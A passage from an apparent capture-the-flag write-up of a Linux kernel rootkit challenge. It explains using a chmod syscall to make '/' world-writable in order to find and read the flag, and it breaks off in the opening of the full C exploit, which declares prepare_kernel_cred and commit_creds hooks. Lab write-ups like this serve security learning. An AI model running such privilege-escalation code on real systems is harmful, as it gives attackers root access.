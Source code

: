 I used the sys_chmod sycall and It worked, no root shell but a root directory with rwx permission for everybody. I also tried to put the suid bit on /bin/sh but it didn't work. 

First a syscall to chmod:

- syscall(SYS_chmod, "/", 0777);

Then I created a file starting by ecsc\_flag\_ inside the root folder to get the real name of the flag and then we can get the flag:

{{< image classes="fancybox fig-50" src="/images/HelloRootkitty/root2.png" thumbnail="/images/HelloRootkitty/root2.png" >}}

{{< image classes="fancybox fig-50 clear" src="/images/HelloRootkitty/root1.png" thumbnail="/images/HelloRootkitty/root1.png" >}}

# Final thought

I saw other write-ups where people simply unloaded the kernel module and then printed the flag which is simpler and less painful. I really wanted a root shell but I don't know why It didn't work since there is no SMEP or SMAP protection if someone has any idea please send me a message :)

# Full exploit

{{< codeblock lang="c"  >}}
// gcc exploit.c -static -o exploit

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#include <time.h>
#include <sys/ioctl.h>

#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <sys/syscall.h>
#include <assert.h>

#define BUF_SIZE 1024

struct cred;
struct task_struct;

struct linux_dirent {
           long           d_ino;
           off_t          d_off;
           unsigned short d_reclen;
           char           d_name[];
};


typedef struct cred *(*prepare_kernel_cred_t) (struct task_struct *daemon) __attribute__((regparm(3)));
typedef int (*commit_creds_t) (struct cred *new) __attribute__((regparm(3)));
